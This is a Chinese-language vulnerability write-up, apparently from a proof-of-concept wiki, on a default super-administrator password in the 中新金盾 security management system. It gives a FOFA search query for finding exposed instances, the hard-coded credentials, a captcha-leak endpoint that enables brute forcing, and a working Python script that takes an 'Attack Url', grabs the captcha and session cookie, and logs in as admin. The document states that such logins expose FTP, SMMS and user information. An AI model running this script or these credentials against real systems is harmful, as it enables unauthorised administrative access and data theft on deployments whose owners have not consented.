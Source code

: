 # 中新金盾信息安全管理系统 默认超级管理员密码漏洞

## 漏洞描述

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

## 漏洞影响

> [!NOTE]
>
> 中新金盾信息安全管理系统

## FOFA

> [!NOTE]
>
> title="中新金盾信息安全管理系统"

## 漏洞复现

看到产品手册

![](http://wikioss.peiqi.tech/vuln/zxjd-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

系统默认管理员账号密码：

**admin/zxsoft1234!@#$**

![](http://wikioss.peiqi.tech/vuln/zxjd-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

登录页面如上，使用账号密码登录

其中泄露了大部分信息，其中包括 SMMS与FTP 及用户信息

![](http://wikioss.peiqi.tech/vuln/zxjd-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/zxjd-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> 请求  ?q=common/getcode  时
>
> 返回了验证码，通过验证码可爆破账号密码等操作

![](http://wikioss.peiqi.tech/vuln/zxjd-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zxjd-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ZhongXinJingDun_Default_administrator_password

![](http://wikioss.peiqi.tech/vuln/zxjd-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
